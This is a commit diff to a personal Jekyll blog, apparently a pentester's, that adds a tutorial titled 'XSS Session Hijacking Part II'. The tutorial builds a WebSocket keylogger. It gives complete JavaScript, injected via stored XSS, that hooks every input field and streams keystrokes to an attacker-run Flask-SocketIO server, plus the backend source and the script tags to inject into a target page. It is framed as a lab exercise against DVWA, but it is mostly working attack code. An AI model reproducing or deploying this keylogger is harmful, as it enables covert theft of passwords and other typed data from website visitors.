

Before and after one commit to s0lst1c3/s0lst1c3.github.io, a Jekyll site: the page built from index.html, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; Markdown is read by kramdown in place of the engine named in the settings; the list of posts is cut into pages by our own code; some of the changed lines change nothing that is shown; some of the changed text lies outside the part shown.

Commit message:
updating

```diff
--- a/_config.yml
+++ b/_config.yml
@@ -1,5 +1,6 @@
 # Dependencies
 markdown:            redcarpet
+#markdown:            kramdown
 highlighter:         pygments
 
 # Permalinks
@@ -29,3 +30,5 @@ version:             2.0
 github:				http://github.com/s0lst1c3
 twitter:			http://twitter.com/s0lst1c3
 linkedin:           http://linkedin.com/ms08067
+
+future: true
--- /dev/null
+++ b/_posts/2016-05-22-xss-session-hijacking-ii.md
@@ -0,0 +1,598 @@
+---
+layout: post
+title: XSS Session Hijacking Part II
+categories:
+- web hacking
+- owasp top 10
+---
+
+In Part I of this series, we learned how to create two modern cookie stealers for stealthily carrying out session hijacking attacks. Although highly effective in many cases, both cookie stealers are useless against websites that employ HttpOnly session cookies.
+
+In this tutorial, we're not going to be focusing on stealing sessions. Instead, we're going to learn how to log keystrokes in realtime using WebSockets, as well as map keystrokes to specific DOM elements.
+
+> WebSockets is an advanced technology that makes it possible to open an interactive communication session between the user's browser and a server. With this API, you can send messages to a server and receive event-driven responses without having to poll the server for a reply.
+> -- [Mozilla Developer Network](https://developer.mozilla.org/en-US/docs/Web/API/WebSockets_API)
+
+
+As the previous tutorial, we're going to be using Python and Flask on the backend as well as JavaScript on the frontend. Additionally, we're going to be using Flask-SocketIO and gevent on our server. For a solid overview of how to use WebSockets with Flask, check out this [awesome post by Miguel Grinberg](http://blog.miguelgrinberg.com/post/easy-websockets-with-flask-and-gevent).
+
+
+# Project Setup
+
+Let's start out by creating our project directory structure. We'll also create blank versions of the files we'll be creating later.
+
+	mkdir -p keylogger/templates
+	touch keylogger/run.py keylogger/tables.py keylogger/templates/wsk.js
+
+Our project directory structure should now look like this:
+
+	keylogger/
+		run.py
+		tables.py
+		templates/
+			wsk.js
+
+Next we create and activate a virtual environment within our main project directory.
+
+	cd keylogger
+	virtualenv env
+	. env/bin/activate
+
+We then create a requirements file containing our project's dependencies.
+
+	printf "flask\nnumpy\nflask-socketio" > pip.req
+
+Finally, we install all dependencies enumerated in our pip.req file.
+
+	pip install -r pip.req
+
+# WebSockets frontend
+
+Now that are project has been setup, we can start coding the keylogger's frontend. The keylogger frontend is the JavaScript code that will be injected into the target page to send keystrokes back to our server. This code should go in the following file:
+
+	keylogger/templates/wsk.js
+
+We start out by creating our onload function. This function will initialize our keylogger everytime the infected page is loaded. Our onload function starts out by getting a list of every input tag on the target page. It then adds an event listener to each one, passing logKeystroke as a callback. Our logKeystroke function, the callback, gets executed everytime a 'keydown' event occurs. We will define it later in this tutorial. We then set our WebSockets namespace and initiate a WebSocket connection with the server. Finally, we set up an event handler for 'connect' events emitted from the server.
+
+{% highlight javascript %}
+
+	window.onload = function() {
+
+		all_inputs = document.getElementsByTagName('input');
+
+		for (var i = 0, length = all_inputs.length; i < length; i++) {
+
+			element.addEventListener("keydown", logKeystroke);
+		}
+
+		namespace = '/keylogger';
+{% raw %}
+		socket = io.connect('http://' + '{{ lhost }}' + ':' + '{{ lport }}' + namespace);
+{% endraw %}
+
+    	// event handler for new connections
+    	socket.on('connect', function() {
+    	    socket.emit({ data : 'new connection initiated'});
+    	});
+	}
+
+{% endhighlight %}
+
+The following syntax belongs to a templating engine called Jinja.
+
+{% raw %}
+
+	{{ lhost }}
+	{{ lport }}
+
+{% endraw %}
+
+Jinja allows us to define variables from our backend Python code and use them within our HTML template. The lhost and lport variables will be defined at runtime within our backend code.
+
+##Logging Keystrokes
+
+Next we define our logKeystroke function. The logKeystroke function takes a single parameter, event, which represents the event of a key being depressed on the keyboard. We grab the keyCode from the event, and send it back to the server along with other information about the context in which the keystroke occurred.
+
+{% highlight javascript %}
+
+function logKeystroke(event) {
+
+	var c = event.keyCode || event.keyCode;
+
+	socket.emit('keydown', {
+		'ks' : c,
+		'start_pos' : this.selectionStart,
+		'end_pos' : this.selectionEnd,
+		'shift' : event.shiftKey,
+		'alt' : event.altKey,
+		'ctrl' : event.ctrlKey,
+		'name' : this.getAttribute('name'),
+		'type' : this.getAttribute('type'),
+		'id' : this.getAttribute('id'),
+		'class' : this.getAttribute('class'),
+	});
+}
+{% endhighlight %}
+
+The contextual information that we provide incudes:
+
+ - __shift__ - a boolean that is True when the shift key is pressed, False when it is not
+ - __ctrl__ - just like shift, but for the control key
+ - __alt__ - just like shift and ctrl, but for the alt key
+ - __name__ - the input's name attribute
+ - __type__ - the input's type attribute
+ - __id__ - the input's id, if any
+ - __class__ - the input's class, if any
+ - __start\_pos and end\_pos__ - see subsection below
+
+##start\_pos and end\_pos
+
+We not only want to know what key was pressed, but where the cursor was located when the keypress occured. Say the user has the following text already written into an input field:
+
+	the quick brown fox jumps over the lazy doge
+
+If the user's cursor is located at the end of the string, and the user  hits the 'a' key with the shift key depressed, then the text should be updated to look like this:
+		the quick brown fox jumps over the lazy dogeA
+
+Otherwise if the user's cursor is located at the beginning of the string, the text should look like this:
+
+		Athe quick brown fox jumps over the lazy doge
+
+Otherwise if the user's cursor is located immediately after the 'x' in the word fox, then the string should be updated to look like this:
+
+		the quick brown foxA jumps over the lazy doge
+
+Finally, we need to deal with the case in which the user has highlighted a portion of the text. Say the user has highlighted the word "quick" and then types the letter 'a' with the shift key pressed. then the text should be updated to look like this:
+
+		the A brown fox jumps over the lazy doge
+
+Fortunately, it's actually relatively simple to account for all of these cases. Each keypress event has both 'selectionStart' and 'selectionEnd' attributes that corresponds to the start and end indexes of the text the user has selected. If the user has no text selected, then the 'selectionStart' and 'selectionEnd' attributes are both set to the position of the cursor.
+
+
+The complete wsk.js file should look like this:
+
+{% highlight javascript %}
+
+	function logKeystroke(event) {
+
+		var c = event.keyCode || event.keyCode;
+
+		socket.emit('keydown', {
+			'ks' : c,
+			'start_pos' : this.selectionStart,
+			'end_pos' : this.selectionEnd,
+			'shift' : event.shiftKey,
+			'alt' : event.altKey,
+			'ctrl' : event.ctrlKey,
+			'name' : this.getAttribute('name'),
+			'type' : this.getAttribute('type'),
+			'id' : this.getAttribute('id'),
+			'class' : this.getAttribute('class'),
+		});
+	}
+
+	window.onload = function() {
+
+		all_inputs = document.getElementsByTagName('input');
+
+		for (var i = 0, length = all_inputs.length; i < length; i++) {
+
+			element.addEventListener("keydown", logKeystroke);
+		}
+
+		namespace = '/keylogger';
+{% raw %}
+		socket = io.connect('http://' + '{{ lhost }}' + ':' + '{{ lport }}' + namespace);
+{% endraw %}
+
+    	// event handler for new connections
+    	socket.on('connect', function() {
+    	    socket.emit({ data : 'new connection initiated'});
+    	});
+	}
+
+
+{% endhighlight %}
+
+#Keycode lookup table
+
+With our frontend out of the way, it's time to start thinking about how to put together our serverside code. Our first task on the backend is to create a system that efficiently translates numerical keycodes and shift combinations into readable characters. To do this, we use a lookup table system that we will implement in the following file:
+
+	keylogger/tables.py
+
+Each key on the keyboard maps to a unique keycode. In order to make sense of what the user is typing, we need to map this keycode to a printable character. To do this, we simply use a lookup table like the one shown below. Each numerical keycode is treated as an index to the NumPy array, at which the keycode's corresponding printable character is stored. We use a NumPy array to get a true O(1) lookup time for each character. Since the lookup table is pretty long, the greater portion of the table is not shown. However, you can see it in the full source code included at the end of this tutorial.
+
+{% highlight python %}
+
+	import numpy
+
+	keyboard = numpy.array([
+	  "",
+	  "",
+	  "",
+	  "CANCEL",
+	  "",
+	  "",
+	  "HELP",
+	  "",
+	  "BACK_SPACE",
+	  "TAB",
+	  "",
+	  "",
+	  "CLEAR",
+	  "ENTER",
+	  "ENTER_SPECIAL",
+	  "",
+	  "SHIFT",
+	  "CONTROL",
+	  "ALT",
+
+		.
+		.
+		.
+
+	  "WIN_OEM_CLEAR",
+	  "",
+	])
+
+{% endhighlight %}
+
+Simply mappinge each keycode to a character is not enough. Since each keycode may represent a different character depending on whether or not the shift key is pressed, we need to define a second lookup table that maps each character on the keyboard to its alt character, provided the character has one.
+
+{% highlight python %}
+
+	shift = {
+	    '1' : '!',
+	    '2' : '@',
+	    '3' : '#',
+	    '4' : '$',
+	    '5' : '%',
+	    '6' : '^',
+	    '7' : '&',
+	    '8' : '*',
+	    '9' : '(',
+	    '0' : ')',
+	    '-' : '_',
+	    '=' : '+',
+	    '[' : '{',
+	    ']' : '}',
+	    '\\': '|',
+	    ';' : ':',
+	    '\'': '"',
+	    ',' : '<',
+	    '.' : '>',
+	    '/' : '?',
+	    '`' : '~',
+	}
+
+{% endhighlight %}
+
+Finally, we add a function that checks to see if a keycode maps to a printable character.
+
+{% highlight python %}
+
+	def is_printable(ks):
+	    return any([
+	        ks == 8,
+	        ks == 32,
+	        ks == 46,
+	        (ks >= 219 and ks <= 222),
+	        (ks >= 186 and ks <= 191),
+	        (ks >= 64 and ks <=  90),
+	        (ks >= 48 and ks <=  59),
+	    ])
+
+{% endhighlight %}
+
+The complete tables.py pretty long, but if you want to check out the whole thing it's included with the source code at the end of the tutorial.
+
+# WebSockets backend
+
+With our frontend and lookup tables complete, it's time to write the backend code for our keylogger's server component. Let's start by opening the following file.
+
+	keylogger/run.py
+
+We first add our import statements to the top of the file.
+
+{% highlight python %}
+
+	import logging
+	import tables
+
+	from flask import Flask, make_response, render_template, request
+	from flask.ext.socketio import SocketIO, emit
+
+{% endhighlight %}
+
+We then set two global variables, __LHOST__ and __LPORT__, that are used to configure the script. The user should set LHOST to his or her server's fqdn or IP address, and LPORT to the port on which the keylogger server should be run.
+
+{% highlight python %}
+
+	LHOST = '192.168.1.90'
+	LPORT = 80
+
+{% endhighlight %}
+
+Flask normally sends a lot of output to stdout. This is an awesome feature for debugging a web application. However, we want stdout to be reserved for displaying keystrokes. To do this, we use Python's logging module to send all log output to a logfile.
+
+{% highlight python %}
+
+logging.basicConfig(filename='wskeylogger.log', level=logging.INFO)
+
+{% endhighlight %}
+
+We then instantiate our Flask application, patch it with Flask-CORS, and then use it to create a new SocketIO object. We also create a global dictionary, __input_tags__, that will be used to keep track of the current state of every input tag on the target page.
+
+{% highlight python %}
+
+app = Flask(__name__)
+app.config['SECRET_KEY'] = 'secret'
+socketio = SocketIO(app)
+
+input_tags = {}
+
+{% endhighlight %}
+
+We then define a route for our index page. Our index is tasked with handling requests for our keylogging JavaScript file. As previously mentioned, the JavaScript file is built dynamically using the Jinja templating engine. The values of lhost and lport are passed in from our Python code, and set to the corresponding global variables that we placed at the top of the file.
+
+{% highlight python %}
+
+	@app.route('/')
+	def index():
+
+		jsfile = render_template('wsk.js', lhost=LHOST, lport=LPORT)
+		response = make_response(jsfile)
+		response.headers['Content-Type'] = 'application/javascript'
+		return response
+
+{% endhighlight %}
+
+We next define functions to handle new and terminating connections.
+
+{% highlight python %}
+
+@socketio.on('connect', namespace='/keylogger')
+def test_connect():
+
+    emit('confirm connection', { 'data' : 'Connected' })
+
+@socketio.on('disconnect', namespace='/keylogger')
+def test_disconnect():
+    print 'Client disconnected'
+
+{% endhighlight %}
+
+The majority of the work done by the keylogger's backend will occur in the keydown function. The keydown function is triggered when the client emits a keydown event. The function's only argument, __message__, contains the data sent from the client. We use message to set our function's local variables.
+
+{% highlight python %}
+
+@socketio.on('keydown', namespace='/keylogger')
+def keydown(message):
+
+    keystroke = message['data']['ks']
+    ctrl_pressed = message['data']['ctrl']
+    alt_pressed = message['data']['alt']
+    shift_pressed = message['data']['shift']
+    selection_start = message['data']['start_pos']
+    selection_end = message['data']['end_pos']
+	name = message['data']['name']
+
+{% endhighlight %}
+
+We use the input tag's name attribute to identify what field the user is typing into. There are far more accurate and reliable ways of doing this. However, we avoid using them for the sake of keeping this tutorial straightforward. We first check to see if the name is already in our input_tags dictionary. If it is not, then we add a new entry to the dictionary such that the name of the input tag maps to an empty list. This list will later contain the contents of the input field the user is typing into. We then set a variable 'contents' to point to the list mapped to by the name attribute. When 'contents' is modified, input_tags[name] will be modified as well.
+
+{% highlight python %}
+
+	if name not in input_tags:
+		input_tags[name] = []
+	contents = input_tags[name]
+
+{% endhighlight %}
+
+We then check to see if either the control or alt keys have been pressed, or if the key does not correspond to a printable character. If any of these conditions are true, then keydown returns immediately, as the keystroke does not correspond to text input from the user.
+
+{% highlight python %}
+
+    if ctrl_pressed or alt_pressed or not tables.is_printable(keystroke):
+        return
+
+{% endhighlight %}
+
+The keystroke is then mapped to a preliminary character using our keyboard lookup table. We say the character is preliminary because its value may need to be changed if the shift key has been pressed.
+
+{% highlight python %}
+
+    keystroke = tables.keyboard[keystroke]
+
+{% endhighlight %}
+
+We then check to see if the preliminary character is a backspace. If the character is a backspace, we either delete any text the user has highlighted or delete the character immediately preceding the user's cursor.
+
+{% highlight python %}
+
+    if keystroke == 'BACK_SPACE':
+
+        if selection_start == selection_end and selection_start != 0:
+            contents.pop(selection_start-1)
+        else:
+            del contents[selection_start:selection_end]
+
+{% endhighlight %}
+
+If the character is not a backspace, we check to see if the delete key has been pressed. If it has, we either delete any highlighted text or delete the character immediately following the user's cursor.
+
+{% highlight python %}
+
+    elif keystroke == 'DELETE':
+
+        if selection_start == selection_end and selection_end != len(contents):
+            contents.pop(selection_start)
+        else:
+            del contents[selection_start:selection_end]
+
+{% endhighlight %}
+
+If neither the backspace or delete key have been pressed, we assume that the preliminary keystroke represents a printable character. We then check to see if the shift key has been pressed and, if it has, modify the keystroke accordingly. Lowercase letters become uppercase, numbers become symbols, and so on and so forth. If the user has any text highlighted, we delete it. We then insert the finalized keystroke at the current cursor position. The updated contents of the input field is saved for use with the next keystroke.
+
+{% highlight python %}
+
+    else:
+
+        if shift_pressed:
+
+            if keystroke in tables.shift:
+                keystroke = tables.shift[keystroke]
+            elif keystroke.isalpha():
+                keystroke = keystroke.upper()
+
+        if selection_start != selection_end:
+            del contents[selection_start:selection_end]
+
+        contents.insert(selection_start, keystroke)
+
+{% endhighlight %}
+
+We then print the current contents of the input field to the console.
+
+{% highlight python %}
+
+    print '<input id="%s" type="%s" class="%s" name="%s" /> textval: %s' %\
+            (message['id'],
+            message['type'],
+            message['class'],
+            message['name'],
+            ''.join(contents))
+
+{% endhighlight %}
+
+Finally, at the bottom of our file, we call socketio.run() to start our keylogger server.
+
+{% highlight python %}
+
+if __name__ == '__main__':
+
+    socketio.run(app, host='0.0.0.0', port=LPORT)
+
+{% endhighlight %}
+
+The completed run.py file should look like this:
+
+{% highlight python %}
+
+import logging
+import tables
+
+from flask import Flask, make_response, render_template, request
+from flask.ext.socketio import SocketIO, emit
+
+LHOST = '192.168.1.169'
+LPORT = 80
+
+logging.basicConfig(filename='wskeylogger.log', level=logging.INFO)
+
+app = Flask(__name__)
+#CORS(app)
+app.config['SECRET_KEY'] = 'secret'
+socketio = SocketIO(app)
+
+input_tags = {}
+
+@app.route('/')
+def index():
+
+    jsfile = render_template('wsk.js', lhost=LHOST, lport=LPORT)
+    response = make_response(jsfile)
+    response.headers['Content-Type'] = 'application/javascript'
+    return response
+
+@socketio.on('connect', namespace='/keylogger')
+def test_connect():
+
+    emit('confirm connection', { 'data' : 'Connected' })
+
+@socketio.on('disconnect', namespace='/keylogger')
+def test_disconnect():
+    print 'Client disconnected'
+
+
+@socketio.on('keydown', namespace='/keylogger')
+def keydown(message):
+
+    keystroke = message['ks']
+    ctrl_pressed = message['ctrl']
+    alt_pressed = message['alt']
+    shift_pressed = message['shift']
+    selection_start = message['start_pos']
+    selection_end = message['end_pos']
+    name = message['name']
+
+    if name not in input_tags:
+        input_tags[name] = []
+    contents = input_tags[name]
+
+    if ctrl_pressed or alt_pressed or not tables.is_printable(keystroke):
+        return
+
+    keystroke = tables.keyboard[keystroke]
+
+    if keystroke == 'BACK_SPACE':
+
+        if selection_start == selection_end and selection_start != 0:
+            contents.pop(selection_start-1)
+        else:
+            del contents[selection_start:selection_end]
+
+    elif keystroke == 'DELETE':
+
+        if selection_start == selection_end and selection_end != len(contents):
+            contents.pop(selection_start)
+        else:
+            del contents[selection_start:selection_end]
+    else:
+
+        if shift_pressed:
+
+            if keystroke in tables.shift:
+                keystroke = tables.shift[keystroke]
+            elif keystroke.isalpha():
+                keystroke = keystroke.upper()
+
+        if selection_start != selection_end:
+            del contents[selection_start:selection_end]
+
+        contents.insert(selection_start, keystroke)
+
+    print '<input id="%s" type="%s" class="%s" name="%s" /> textval: %s' %\
+            (message['id'],
+            message['type'],
+            message['class'],
+            message['name'],
+            ''.join(contents))
+
+if __name__ == '__main__':
+
+    socketio.run(app, host='0.0.0.0', port=LPORT)
+
+{% endhighlight %}
+
+# Running the Keylogger
+
+The first step to using our keylogger is to inject the WebSockets source code into the target page. For testing purposes, we can use the stored XSS page on DVWA that we used in Part I of this series.
+
+	<script type="text/javascript" src="http://cdnjs.cloudflare.com/ajax/libs/socket.io/1.3.5/socket.io.min.js"></script>
+
+We then inject a script tag linking to our keylogger's frotnend code. Just substitute 192.168.1.99 with your IP address, and 80 with the value of LPORT in your run.py file.
+
+	<script type="text/javascript" src="http://192.168.1.99:80/"></script>
+
+In your __keylogger__ directory, run the following command:
+
+	python run.py
+
+Finally, refresh the page you injected the script tags into. Try typing into one of the input fields. You should get something similar to the output shown below in your terminal.
+
+![logging keystrokes]({{ site.baseurl }}images/wsk/logging-ks.png)
+
+We can now see what and where the user is typing.
+
+To check out the source code for this tutorial, head to [github.com/s0lst1c3/keylogger](http://github.com/s0lst1c3/keylogger). For a more robust example designed to be used in an actual pentesting scenario, check out my project [keyboardsnitch](http://github.com/s0lst1c3/keyboardsnitch).
```
